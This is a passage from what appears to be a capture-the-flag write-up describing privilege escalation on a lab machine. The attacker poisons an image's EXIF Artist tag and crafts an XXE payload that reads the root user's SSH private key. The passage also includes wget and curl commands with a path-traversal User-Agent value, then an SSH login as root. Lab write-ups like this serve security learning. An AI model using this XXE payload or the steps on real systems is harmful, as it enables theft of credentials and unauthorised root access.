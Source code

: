1. uri
2. Artist 
3. Exportable XML file

All 3 of these have variables that can be edited by the user, which makes them possible attack vectors. This works by having the `uri` lead to an image on the target system where the `Artist` tag has been edited to lead to an XML file which has some form of XXE payload in order to obtain root.

### Performing the attack:

Follow the steps to achieve priv-esc:

1. Download an image from the WebApp, it doesn't matter which one. In the attacker machine, run `exiftool <IMAGE> -Artist=../home/woodenk/lol`. This will edit the Artist tag to lead to another XML file.
2. Export an XML file from any artist, name it `lol_creds.xml` and make it look like this:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/../../../../../../../home/woodenk/<IMAGE></uri>
    <lol>&ent;</lol>
    <views>1</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```
3. Use `python -m http.server 8000` (Attacker machine) and `wget http://<HOST_IP>:8000/(THE IMAGE FILE AND XML FILE)` (Target machine) to get the edited image and `lol_creds.xml` to the target machine's home directory (`/home/woodenk/`)
4. Run `curl -v -H "User-Agent:||/../../../../../../../home/woodenk/<IMAGE>" http://10.10.11.170:8080`
5. Wait a minute and run `cat lol_creds.xml`. You will see the private key which we can use to ssh into the machine as root.
6. Copy the private key and save it to `id_rsa` and run `ssh root@<IP_ADDR> -i id_rsa` and you will be able to log in.
7. Root flag is at `/root/root.txt`
